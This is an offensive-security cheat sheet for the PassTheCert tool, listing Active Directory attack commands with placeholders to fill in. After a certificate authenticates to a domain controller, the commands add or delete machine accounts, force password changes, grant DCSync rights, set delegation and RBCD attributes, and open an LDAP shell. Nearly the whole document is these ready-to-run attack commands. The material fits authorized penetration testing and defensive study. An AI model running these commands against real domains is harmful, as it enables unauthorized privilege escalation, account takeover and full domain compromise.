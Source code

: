 # passthecert

% certificate, windows, Active directory, shadow credential, rbcd, dcsync, pkinit, certificate

## download
```
https://github.com/AlmondOffSec/PassTheCert
```

## doc
```
https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html
```


## Computer mgt - add (windows)
#plateform/windows #target/remote  #cat/UTILS
```powershell
.\PassTheCert.exe --server ad1.contoso.com --cert-path Z:\ad2.pfx --add-computer --computer-name DESKTOP-1337$
```


## ldapshell  (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE

```bash
passthecert.py -action ldap-shell -crt <certficcate>.crt -key <certficcate>.key -domain <domain_fqdn> -dc-ip <dc_ip>
```

## Computer mgt - add (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
```bash
passthecert.py -action add_computer -crt <certficcate>.crt -key <certficcate>.key -domain <domain_fqdn> -dc-ip <dc_ip> -computer-name <computer_name|Jubeaz>$ -computer-pass <password|Zaebuj12345+->
```

## Computer mgt - del (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
```bash
passthecert.py -action del_computer -crt <certficcate>.crt -key <certficcate>.key -domain <domain_fqdn> -dc-ip <dc_ip> -computer-name <computer_name|Jubeaz>$ 
```

## Computer mgt - change password (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
```bash
passthecert.py -action modify_computer -crt <certficcate>.crt -key <certficcate>.key -domain <domain_fqdn> -dc-ip <dc_ip> -computer-name <computer_name|Jubeaz>$ -computer-pass <password|Zaebuj12345+->
```

## User mgt - change password (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
```bash
passthecert.py -action forcePWDchange -crt <certficcate>.crt -key <certficcate>.key -domain <domain_fqdn> -dc-ip <dc_ip> -target user_sam -new-pass <password|Zaebuj12345+->
```

## User mgt - DCSYNC (linux)
 ```bash
passthecert.py -action modify_user -crt <certficcate>.crt -key <certficcate>.key -domain <domain_fqdn> -dc-ip <dc_ip> -target <user> -elevate
 ```
 
 ## constrained delegation - add (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
```bash
passthecert.py -action add_computer -crt <certficcate>.crt -key <certficcate>.key -domain <domain_fqdn> -dc-ip <dc_ip> -computer-name <computer_name|Jubeaz>$ -delegated-services <spn1>,<spn2>
```

## rbcd - add (linux)
#plateform/linux #target/remote  #cat/ATTACK/AD/DACL-ABUSE
Write new SIDs to the msDS-AllowedToActOnBehalfOfOtherIdentity

```bash
passthecert.py -action write_rbcd -crt <certficcate>.crt -key <certficcate>.key -domain <domain_fqdn> -dc-ip <dc_ip> -delegate-to <target>$ -delegate-from <computer_name|Jubeaz>$
```
